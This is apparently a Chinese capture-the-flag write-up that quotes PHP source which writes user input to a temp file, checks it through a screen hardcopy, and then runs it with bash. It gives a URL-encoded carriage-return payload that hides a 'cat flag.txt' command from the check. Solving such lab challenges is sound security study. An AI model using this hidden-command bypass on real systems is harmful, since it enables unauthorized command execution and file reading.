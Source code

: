```php

if(isset($_POST['executy'])) {
    $executy = trim($_POST['executy']);

    try {
        if(strlen($executy) > 1024) {
            throw new Exception("Too long");
        }

        if($executy == $THE_SCRIPT) {
            throw new Exception("Nope, this is too easy!");
        }

    $fname = "/tmp/" . format_uuidv4(random_bytes(16)) . ".sh";

    $ret = file_put_contents($fname, $executy);
        if(!$ret) {
            throw new Exception("Nope");
        }

        `ulimit -Sn 10000;ulimit -Hn 50000;screen -Dm -- bash -c "cat $fname; screen -X hardcopy -h $fname.out"`;
        $fcontent = trim(file_get_contents($fname . ".out"));

        if($fcontent != $THE_SCRIPT) {
            echo "I'm not allowed to execute other files :-(";
            throw new Exception("Nope");
        }

        echo `timeout 1s bash $fname 2>&1`;

    } catch(Exception $e) {
        echo "An error occured!" . $e;
    }
    @unlink($fname);
    @unlink($fname . ".out");
}
?>
```

输入的 bash 命令将被检查是否与$THE SCRIPT 变量中的内容匹配。如果不同，那么命令不会被执行。

根据下半部分源码可知，我们输入的 bash 命令并没有直接与 $THE_SCRIPT 变量进行比较。相反，它是使用硬拷贝屏幕捕获的。

可以发起 CLRF攻击

payload

```
%23%21%2Fbin%2Fsh%0Acat%20*%20#%0Dcat+flag.txt%3B
```

![image-20240408204007857](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240408204007857.png?imageSlim)

